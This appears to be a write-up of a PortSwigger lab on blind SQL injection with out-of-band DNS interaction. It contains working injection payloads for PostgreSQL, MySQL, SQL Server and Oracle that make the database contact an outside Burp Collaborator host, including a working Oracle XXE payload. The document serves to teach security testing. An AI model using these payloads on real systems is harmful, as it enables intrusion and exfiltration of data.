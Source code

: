 # Blind SQL injection with out-of-band interaction

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

## Definition
Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using Burp Collaborator. This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to Burp Suite Professional with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

This will cause the database to perform a lookup for the following domain:
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net

You can use Burp Suite's Collaborator client to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur. 

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

**Confirming Vulnerability**  
To start, it is necessary to identify which DBMS is running in the system backend to confirm the vulnerability truly exists and exploit them. Assuming that what is described in the lab description is true, there is no way to achieve this without a trial and error approach, using the out-of-band communication technique to get these answers.

Below there are all payload attempts to identify and the DBMS doing out-of-band communication. It was tried from the most to the least popular (IMHO):

PostgreSQL (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'; COPY (SELECT '') TO PROGRAM 'nslookup abc.burpcollaborator.net'--
```

MySQL (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U' OR (SELECT LOAD_FILE(concat(‘\\\\’, 'abc', '.burpcollaborator.net\\')))-- 
```

SQL Server (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'; exec master..xp_dirtree '//abc.burpcollaborator.net/a' 
```

Oracle (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'+OR+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```

After trying payloads of all DBMS and some variations of them, I looked at the lab solution (no shame at all), and to my surprise, the solution provided was very similar to the one that I used for Oracle DBMS. They used `Union Select` instead of `OR in a where clause`. So the question is, why mine didn't work?

So, I tried another change in my previous Oracle payload as shown below. I switch the "OR" statement to the "AND" and It worked! Why? The answer is simple: logic (or the lack of it in this case).

Oracle (worked)
```sql
...'kzkJFv1M3CN3Aq4U'+AND+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```

![Lab Solution](images/image01.png)
![Lab Solved](images/image02.png)

It worked this time due to the logical operation in the where clause. In the previous attempt the first criteria "trackingId=kzkJFv1M3CN3Aq4U" is always evaluated to true so there's no need to check the second criteria because the statement used was OR not AND. For that reason, the DNS lookup was never triggered. To prove this idea, I changed the trackingId to an invalid value and used the OR operator in the payload and it worked as well.

```sql
...'kzkJFv1M3CN3Aq4U****'+OR+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```


## Key Words
> sql injection, blind, oracle, out-of-band, oast, dns
